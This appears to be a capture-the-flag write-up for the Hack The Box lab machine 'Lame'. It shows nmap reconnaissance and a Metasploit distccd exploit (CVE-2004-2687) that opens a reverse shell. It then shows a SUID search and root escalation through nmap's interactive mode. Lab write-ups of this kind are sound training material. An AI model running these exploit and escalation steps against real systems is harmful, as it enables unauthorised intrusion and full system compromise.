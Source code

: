 ```yaml
---
title: HTB - Lame
date: 2023-11-27
categories: [CTF, HTB]
tags: [nmap, suid, hacktricks, metasploit, distccd, cve-2004-2687]
img_path: /assets/lame/
published: true
---
```


![room_banner](lame_banner.png)

## Overview

|:-:|:-:|
|Machine|[Lame](https://app.hackthebox.com/machines/1)|
|Rank|Easy|
|Time|45min|
|Focus|SUID, Metasploit|

## 1. Initial Enum

```shell
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 10.10.10.3 -p-

PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp   open  ssh    OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)

139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))

Aggressive OS guesses: Linux 2.6.23 (92%)

Host script results:
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 2h30m21s, deviation: 3h32m10s, median: 19s
| smb-os-discovery:
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name:
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2023-11-27T15:18:00-05:00
```

> FTP server is empty & SMB enumeration lead to nothing.

## 2. Initial Foothold

> [Hacktricks](https://book.hacktricks.xyz/network-services-pentesting/3632-pentesting-distcc): _**Distcc** is designed to speed up compilation by taking advantage of unused processing power on other computers. A machine with distcc installed can send code to be compiled across the network to a computer which has the distccd daemon and a compatible compiler installed._

> msf6 exploit(unix/misc/distcc_exec) > set payload /cmd/unix/reverse

```shell
# meterpreter
cd home
ls
ftp
makis
service
user
cd makis
ls
user.txt
```
## 3. Privilege Escalation

```shell
daemon@lame:/$ find / -type f -perm -u=s 2>/dev/null
find / -type f -perm -u=s 2>/dev/null
...
/usr/bin/nmap
/usr/bin/chsh
/usr/bin/netkit-rcp
/usr/bin/passwd
/usr/bin/mtr
/usr/sbin/uuidd
/usr/sbin/pppd
/usr/lib/telnetlogin
/usr/lib/apache2/suexec
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/lib/pt_chown
/usr/lib/vmware-tools/bin64/vmware-user-suid-wrapper
/usr/lib/vmware-tools/bin32/vmware-user-suid-wrapper
```

<figure>
    <img src="gtfobins_suid_sudo_nmap.png"
    alt="GTFOBins nmap" >
</figure>

> SUID section does not work --> SUDO (b) works!

```shell
daemon@lame:/usr/bin$ ./nmap --interactive
./nmap --interactive

Starting Nmap V. 4.53 ( http://insecure.org )
Welcome to Interactive Mode -- press h <enter> for help
nmap> !sh
!sh
sh-3.2# cat /root/root.txt
cat /root/root.txt
```

<figure>
    <img src="lame_pwned.png"
    alt="Machine pwned" >
</figure>